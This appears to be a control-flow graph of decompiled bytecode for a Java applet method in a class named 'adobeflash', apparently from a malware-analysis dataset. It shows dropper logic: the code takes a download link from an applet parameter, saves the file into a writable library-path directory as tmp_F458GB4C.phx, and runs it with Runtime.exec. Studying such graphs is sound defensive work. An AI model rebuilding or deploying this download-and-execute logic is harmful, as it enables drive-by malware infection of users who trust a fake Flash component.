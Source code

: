 digraph "" {
    "r0 := @this: adobeflash"
    "push \"java.library.path\""
    "r0 := @this: adobeflash"->"push \"java.library.path\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"java.library.path\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticget <java.io.File: java.lang.String pathSeparator>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"staticget <java.io.File: java.lang.String pathSeparator>";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"
    "staticget <java.io.File: java.lang.String pathSeparator>"->"virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"->"store.r r1";
    "push null"
    "store.r r1"->"push null";
    "store.r r16"
    "push null"->"store.r r16";
    "load.r r0"
    "store.r r16"->"load.r r0";
    "push \"link\""
    "load.r r0"->"push \"link\"";
    "virtualinvoke <adobeflash: java.lang.String getParameter(java.lang.String)>"
    "push \"link\""->"virtualinvoke <adobeflash: java.lang.String getParameter(java.lang.String)>";
    "store.r r2"
    "virtualinvoke <adobeflash: java.lang.String getParameter(java.lang.String)>"->"store.r r2";
    "push 0"
    "store.r r2"->"push 0";
    "store.i i1"
    "push 0"->"store.i i1";
    "load.i i1"
    "store.i i1"->"load.i i1";
    "load.r r1"
    "load.i i1"->"load.r r1";
    "arraylength"
    "load.r r1"->"arraylength";
    "ifcmpge.i load.r r16"
    "arraylength"->"ifcmpge.i load.r r16";
    "ifcmpge.i load.r r16"->"load.r r1";
    "load.r r1"->"load.i i1";
    "arrayread.r"
    "load.i i1"->"arrayread.r";
    "store.r r3"
    "arrayread.r"->"store.r r3";
    "store.r r3"->"load.r r0";
    "load.r r3"
    "load.r r0"->"load.r r3";
    "push \"57ef66de\""
    "load.r r3"->"push \"57ef66de\"";
    "specialinvoke <adobeflash: boolean isWriteable(java.lang.String,java.lang.String)>"
    "push \"57ef66de\""->"specialinvoke <adobeflash: boolean isWriteable(java.lang.String,java.lang.String)>";
    "ifeq inc.i i1 1"
    "specialinvoke <adobeflash: boolean isWriteable(java.lang.String,java.lang.String)>"->"ifeq inc.i i1 1";
    "ifeq inc.i i1 1"->"load.r r3";
    "load.r r3"->"store.r r16";
    "goto load.r r16"
    "store.r r16"->"goto load.r r16";
    "load.r r16"
    "goto load.r r16"->"load.r r16";
    "ifnull goto return"
    "load.r r16"->"ifnull goto return";
    "ifnull goto return"->"load.r r0";
    "load.r r2"
    "load.r r0"->"load.r r2";
    "new java.lang.StringBuilder"
    "load.r r2"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r16";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r16"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\\tmp_F458GB4C.phx\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\tmp_F458GB4C.phx\"";
    "push \"\\tmp_F458GB4C.phx\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <adobeflash: boolean DownloadFile(java.lang.String,java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <adobeflash: boolean DownloadFile(java.lang.String,java.lang.String)>";
    "ifeq goto return"
    "specialinvoke <adobeflash: boolean DownloadFile(java.lang.String,java.lang.String)>"->"ifeq goto return";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "ifeq goto return"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r16";
    "load.r r16"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\tmp_F458GB4C.phx\"";
    "push \"\\tmp_F458GB4C.phx\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Process: int waitFor()>"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.lang.Process: int waitFor()>";
    "pop"
    "virtualinvoke <java.lang.Process: int waitFor()>"->"pop";
    "pop"->"load.r r0";
    "virtualinvoke <adobeflash: void CallJavaScript()>"
    "load.r r0"->"virtualinvoke <adobeflash: void CallJavaScript()>";
    "goto return"
    "virtualinvoke <adobeflash: void CallJavaScript()>"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "virtualinvoke <adobeflash: void CallJavaScript()>"->"store.r r0";
    "inc.i i1 1"
    "ifeq inc.i i1 1"->"inc.i i1 1";
    "goto load.i i1"
    "inc.i i1 1"->"goto load.i i1";
}
